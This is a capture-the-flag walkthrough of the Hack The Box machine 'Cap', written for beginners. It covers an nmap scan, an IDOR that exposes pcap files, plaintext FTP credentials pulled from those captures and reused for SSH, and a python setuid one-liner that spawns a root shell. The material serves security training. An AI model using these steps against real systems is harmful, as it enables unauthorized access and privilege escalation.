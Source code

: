 # Hack The Box: Cap writeup
### Difficulty level: Easy
--------------------------------------
 First of all, let’s add the target machine IP address to /etc/hosts file.
 
 ```bash 
 echo '<IP-address> cap.htb' >> /etc/hosts
 ```
  

  The next step will be nmap scan. Let's write the results into a nmap.txt file.

  ```bash
  nmap -p- -sC -sV <IP-address> > nmap.txt
  ```
  
  ```bash
  nmap resuls:
Host is up (0.093s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 17 Dec 2023 16:01:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 17 Dec 2023 16:01:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 17 Dec 2023 16:01:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=12/17%Time=657F1B42%P=x86_64-pc-linux-gnu%r(Get
SF:Request,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x2
SF:0Sun,\x2017\x20Dec\x202023\x2016:01:08\x20GMT\r\nConnection:\x20close\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2019
SF:386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">
SF:\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x
SF:20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20
SF:\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta
SF:\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale
SF:=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"imag
SF:e/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\"
SF:>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fo
SF:nt-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x2
SF:0href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel
SF:=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\
SF:.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/
SF:css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOptio
SF:ns,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sun,\x
SF:2017\x20Dec\x202023\x2016:01:08\x20GMT\r\nConnection:\x20close\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20OPTIONS,\x
SF:20HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20tex
SF:t/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x2
SF:0\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>
SF:\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inval
SF:id\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTS
SF:P/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,18
SF:9,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Sun,\x2017\x20Dec\x202023\x2016:01:13\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232
SF:\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x2
SF:0Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1
SF:>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20se
SF:rver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20c
SF:heck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.71 seconds
```

That machine has 3 open ports:

21- ftp
22- ssh
80- http
    
Let’s start with port 80:

![image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*A1rQg_1l1XH00LtcE4TTqg.png)

There is security dashboard with pcap file download that includes non-encrypted network traffic.
    
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*zVIb0odsnclZoH3TnNjb_w.png)

  In the URL there is direct object on data directory.
http://cap.htb/data/1

After I replaced the number with another number, I got another data information about the
packets which there is IDOR. Those numbers are different pcap files, so after checking how
many files there are, the results were 4 files. With changing the value to 0, 1, 2, we got those
3 different files. When changing the value to number 3 and above that, the app leads us back
to the home dashboard. Let’s inspect all those 3 files with WIRESHARK.

```bash
Educational anecdote
Generally, this is an IDOR vulnerability cause we got access to security dashboard of one of
the regular user that his name is Nathan. This account actually gets an access to network
traffic of other users (every file gives information about different IP’S).
```
Let’s inspect file “0.pcap”

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qla9pygxgh_pOGgv65oGgw.png)

There is FTP server connection of the user nathan with those plain text credentials cause FTP is not encrypted.

I tried to make the connection with the credentials.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*OiW5QOvBAPCwisQ5KcBxaA.png)

user.txt is in our hands.
The next step is trying to connect with SSH and escalate our privileges.
Those credentials are used also to connect with SSH.

After the connection, I uploaded linpeas.sh to the machine getting a way to do my privesc.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*WBlXh2v6cad-NqhUBqcNTw.png)

Linpeas found a way to to that, with the binary of python.
Time for gtfobins:

https://gtfobins.github.io

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Whoami?

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*R3g22nG12bJaXXf_dArEIw.png)

I’m happy to write those walkthroughs to help beginners to do their first step in cybersecurity field and being better ethical hackers.





    

    
    

  

  
  
  
